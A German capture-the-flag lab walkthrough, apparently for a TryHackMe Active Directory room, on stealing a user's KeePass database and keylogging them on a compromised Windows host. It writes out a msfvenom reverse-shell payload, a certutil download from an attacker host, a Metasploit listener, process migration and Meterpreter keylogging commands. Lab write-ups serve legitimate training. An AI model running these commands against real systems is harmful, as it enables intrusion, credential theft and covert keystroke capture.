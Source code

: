 
## WIR kriegen eine Shell mit NT Authority



# Exploiting AD Users 

Der schwächste Punkt in einem System ist immernoch der Benutzer. Daher konzentrieren wir uns jetzt darauf, wie User ihre Zugangsdaten speichern und wie Benutzer mit einem System interagieren bzw. wir Keyloggen. In diesem Fall speichert der User seine Zugangsdaten in das Programm "KeePass". Wir laden uns die Datenbank herunter. Nebenbei migrieren wir in einen Prozess des Benutzers und zeichnen seine Benutzereingaben auf.

---
Da wir in der vorherigen Aufgabe THMServer1 kompromettiert haben, schauen wir uns nun auf diesem System um.

Wir sehen eine *.kdbx Datenbank im Userverzeichnis
```
    Directory: C:\users\trevor.local\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/30/2022   4:36 PM           2190 PasswordDatabase.kdbx
```

Problem hier ist, wir müssen diese Datei irgendwie herunterladen. Dazu können wir Meterpreter nutzen. Wir gehen folgendermaßen vor, um überhaupt eine Meterpreter Shell zu bekommen:

   - Wir erstellen mit msfvenom einen Payload
      > msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
   - Wir stellen einen HTTP Server bereit
      > python3 -m http.server 8080
   - Wir laden die Datei auf den Zielhost
      > certutil -urlcache -split -f http://attackerip:8080/shell.ps1
   - Wir starten einen Meterpreter Listener mit Metasploit
      > msfconsole -q -x "use multi/handler; set lhost 10.50.122.221; set lport 5555; set payload windows/x64/meterpreter/reverse_tcp; exploit"
   - Wir führen das Powershell Script "shell.ps1" auf dem Zielhost aus und bekommen eine Meterpretershell
   - Danach wechseln wir in das jeweilige Verzeichnis und laden die Datei herunter
   - Wir suchen jetzt nach Prozessen, die von dem User "trevor.local" ausgeführt werden
      > ps | grep "explorer"
   - Wir migrieren in den Explorer Prozess
      > migrate 3167
   - Anschließend starten in Meterpreter den Keylogger
      > keyscan_start
   - Nach einigen Minuten sollten wir nachschauen ob irgendetwas aufgezeichnet wurde
      > keyscan_dump

